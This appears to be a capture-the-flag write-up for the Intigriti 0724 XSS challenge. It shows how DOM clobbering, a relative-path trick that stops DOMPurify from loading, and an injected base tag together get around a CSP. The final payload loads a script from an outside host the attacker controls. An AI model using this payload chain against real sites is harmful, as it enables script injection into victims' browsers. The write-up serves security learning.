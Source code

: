 +++
title = "Intigriti 0724 XSS Challenge"
date = 2024-06-06T21:00:26+05:30
draft = false
tags = ["writeups"]
+++

**tl;dr**

+ Dom clobbering to clobber isDevelopmet
+ Throwing an error using RPO to prevent Dompurify from loading
+ Using base tag's to import our evil.js
<!--more-->


## 🔎 Initial analysis

We are given a memo sharing application , and its seems like we html injection using the memo parameter. Looking at the client-side code for the application.
```html
<script integrity="sha256-C1icWYRx+IVzgDTZEphr2d/cs/v0sM76a7AX4LdalSo=">
      document.getElementById("memoForm").addEventListener("submit", (event) => {
        event.preventDefault();
        const memoContent = document.getElementById("memoContentInput").value;
        window.location.href = `${window.location.href.split("?")[0]}?memo=${encodeURIComponent(
          memoContent
        )}`;
      });

      const urlParams = new URLSearchParams(window.location.search);
      const sharedMemo = urlParams.get("memo");

      if (sharedMemo) {
        const displayElement = document.getElementById("displayMemo");
        //Don't worry about XSS, the CSP will protect us for now
        displayElement.innerHTML = sharedMemo;

        if (origin === "http://localhost") isDevelopment = true;
        if (isDevelopment) {
          //Testing XSS sanitization for next release
          try {
            const sanitizedMemo = DOMPurify.sanitize(sharedMemo);
            displayElement.innerHTML = sanitizedMemo;
          } catch (error) {
            const loggerScript = document.createElement("script");
            loggerScript.src = "./logger.js";
            loggerScript.onload = () => logError(error);
            document.head.appendChild(loggerScript);
          }
        }
      }
    </script>
```
as you can see our input HTML goes into an innerHTML sink in the beginning itself, however there is no easy XSS as there is a CSP. 

```js

default-src *; script-src 'strict-dynamic' 'sha256-bSjVkAbbcTI28KD1mUfs4dpQxuQ+V4WWUvdQWCI4iXw=' 'sha256-C1icWYRx+IVzgDTZEphr2d/cs/v0sM76a7AX4LdalSo=';
```

The csp doesnt seem too strict , the first thing that i thought of was that default src is * and there is no base uri directive in the csp .

So we can inject a base tag with our server as the href value which will make all the scripts with relative paths in the page load resources from our server.

However there is only one script being used in the page which is  dompurify.js and it is being loaded way before our injection happens so we cant make it load from our server using base tags.

However there is another script (logger.js) that is being loaded dynamically if certain conditions are satisfied. We can control the location from where logger.js is loaded using base tags as it is being loaded after our injection happens .
```js
if (origin === "http://localhost") isDevelopment = true;
        if (isDevelopment) {
          //Testing XSS sanitization for next release
          try {
            const sanitizedMemo = DOMPurify.sanitize(sharedMemo);
            displayElement.innerHTML = sanitizedMemo;
          } catch (error) {
            const loggerScript = document.createElement("script");
            loggerScript.src = "./logger.js";
            loggerScript.onload = () => logError(error);
            document.head.appendChild(loggerScript);
          }
        }
```
So to make logger.js load from our external server we have somehow reach the catch block. So for that to happen we need isDevelopment to be true, so that we can get inside the if block.

isDeveloment is only set to true if the origin is localhost.At the first glance it seems impossible to set isDevelopment as true.

However there are certain stuff you could to with just HTML injection!!

## 🥷 Attack plan

So the attack plan is to use DOM clobbering here as we have HTML injection to define the isDevelopment variable. As isDevelopment is a global variable a simple tag with id attribute as isDevelopment will define that variable. Eg

```js
<a id="isDevelopment">,<div id="isdevelopment"> etc 
```

## Causing an Error to reach the catch block 🌟

So now we are inside the if block , and to get to our logger.js script to load we have to get to the catch block . For that we have to cause an error somehow in these lines of code

```js
try {
    const sanitizedMemo = DOMPurify.sanitize(sharedMemo);
    displayElement.innerHTML = sanitizedMemo;
}
```

If you look at the source code closely you can see that Dompurify is being loaded as a relative path. so if we access the page like /index.html/blah dompurify will try to get loaded from /blah .

So now that we are in the catch block we can use a base tag to load logger.js from our server.

## 🚀  Final Payloads
```html
<a id="isDevelopment">asdf</a><base href="https://alfino.free.beeceptor.com/">
```
where we host logger.js at https://alfino.free.beeceptor.com/logger.js

